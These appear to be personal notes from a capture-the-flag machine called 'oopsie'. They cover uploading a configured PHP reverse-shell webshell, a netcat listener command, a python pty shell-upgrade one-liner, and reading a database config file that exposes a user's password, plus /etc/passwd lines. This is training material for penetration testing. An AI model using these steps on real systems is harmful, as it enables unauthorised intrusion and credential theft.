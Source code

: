 # php revese shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`

Change port and ip and then upload the file.
```bash
$ip = '@IP_Local';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Username is `www-data` and the machine is named `oopsie`.

Search in the directory `/var/www/html/xxx/` the folder `login`. There are 4 files in that folder. 

## admin.php
Inside the file there's a new id `86575` but no username related.

## db.php
In the first lines appears the username `robert` with a password `M3g4C0rpUs3r!` and the word `garage`.

```ad-question
Maybe ssh with robert user?
```

# cat /etc/xxx
## passwd
```bash
robert:x:1000:1000:robert:/home/robert:/bin/bash
```

## group
```bash
robert
```